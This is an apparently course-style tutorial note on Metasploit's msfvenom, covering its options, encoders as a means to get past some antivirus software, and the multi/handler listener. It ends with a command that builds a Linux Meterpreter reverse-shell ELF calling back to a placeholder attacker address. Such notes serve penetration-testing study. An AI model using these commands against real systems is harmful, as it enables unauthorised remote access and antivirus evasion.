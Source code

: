 
# Msfvenom
Msfvenom, which replaced Msfpayload and Msfencode, allows us to generate payloads. It will give us access to all payloads available in the Metasploit framework, it allows us to create payloads in many different formats and for different target systems.

`msfvenom`

| option | description |
| ---- | ---- |
| `--list formats` | lists supported output formats |
| `-l payloads` |  |
| `-p PAYLOAD` |  |
| `-e ENCODER` |  |
| `-f FORMAT` | specifies the output format |
| `-o FILE` | the output location and filename for the generated payload |

## Encoders
Encoders can be effective against some antivirus software, however, using obfuscation techniques or learning methods to inject shellcode can be a better solution to the problem. We can use the encoder in msfvenom with the `-e` parameter followed by the encoding method like `-e php/base64`, which would encode the PHP version of meterpreter in Base64  

## Handlers
Similar to exploits using a reverse shell, we need to accept incoming connections generated by the MSFvenom payload. With an exploit module, this part is automatically handled by the exploit module. Reverse shells or Meterpreter callbacks generated in our MSFvenom payload can be easily caught using a handler.

We can use the `use exploit/multi/handler` command  to receive the incoming connections, it supports all Metasploit payloads and can be used for Meterpreter as well as regular shells. To use it, we need to set the payload, LHOST and LPORT values.

## Other Payloads
Based on the target system's configuration, MSFvenom can be used to create payloads in almost all formats, some of the most used ones are
### elf
Linux Executable and Linkable Format (elf) is comparable to the **.exe** formatin windows. These are executable files for Linux. However, we still need to make sure we have executable permissions on the target machine, for this we can use `chmod +x shell.elf` to change the permissions of all users to allow them to execute that file.

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
